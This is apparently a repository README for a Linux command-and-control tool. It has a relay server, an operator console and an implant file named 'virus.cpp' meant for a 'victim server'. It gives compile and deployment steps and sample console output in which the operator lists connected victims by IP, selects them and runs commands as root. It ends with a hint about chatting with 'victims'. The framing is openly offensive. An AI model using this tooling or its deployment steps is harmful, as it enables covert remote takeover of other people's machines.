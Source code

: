 Linux Server C2 Controller



**Step 1:**

Replace the ip address "192.168.80.132" in the tcsl.cpp and host.cpp as your server ipv4 address



**Step 2:**

Copy tcsl.cpp to your Linux Server

virus.cpp to your victim server

host.cpp to your local machine as control side

and then compile:

g++ tcsl.cpp -o tcsl

g++ host.cpp -o host

g++ virus.cpp -o server



**Step 3: **

Open terminals and run the command seperately:

./tcsl

Support any amounts of Clients' connections

the Host and Client is auto-recognized:

./virus

./host



**Step 4:**

Please use 'hs' followed with the client numbers you pick.

For example: 'hs 1'

Use 'hh' to check the connected clients.



**Step 5:**

Enjoy your commands in the host terminal and control your client as terminal.

For example:

Connected to the server.

No client connected.

┌──(root♪hr0g) - [~]

└─# ls

Please use 'hs' followed with the client numbers you pick.

For example: 'hs 1'

Use 'hh' to check the connected clients.

┌──(root♪hr0g) - [~]

└─# hh

Client 1:  Ip: 223.104.76.166

┌──(root♪hr0g) - [~]

└─# hs 1

Client 1 selected.


┌──(root♪hr0g) - [~1]

└─# pwd

/home/kali/Desktop

┌──(root♪hr0g) - [~1]

└─# exit

Exited.

Client 1:  Ip: 223.104.76.166

┌──(root♪hr0g) - [~]

└─# hs 1

Client 1 selected.

┌──(root♪hr0g) - [~1]

└─# whoami

root


┌──(root♪hr0g) - [~1]

└─# hs 2

Client 2 selected.

┌──(root♪hr0g) - [~2]

└─# hh

Client 1:  Ip: 223.104.76.166

Client 2:  Ip: 223.104.76.166

┌──(root♪hr0g) - [~2]

└─# exit

Exited.

Client 1:  Ip: 223.104.76.166

Client 2:  Ip: 223.104.76.166

┌──(root♪hr0g) - [~]

└─# hs 1

Client 1 selected.

┌──(root♪hr0g) - [~1]

└─# exit

Exited.

Client 1:  Ip: 223.104.76.166

Client 2:  Ip: 223.104.76.166

┌──(root♪hr0g) - [~]

└─# ls

Please use 'hs' followed with the client numbers you pick.

For example: 'hs 1'  

Use 'hh' to check the connected clients.

┌──(root♪hr0g) - [~]

└─#

Hint: use 'chatmode' to communicate with victims(under development)
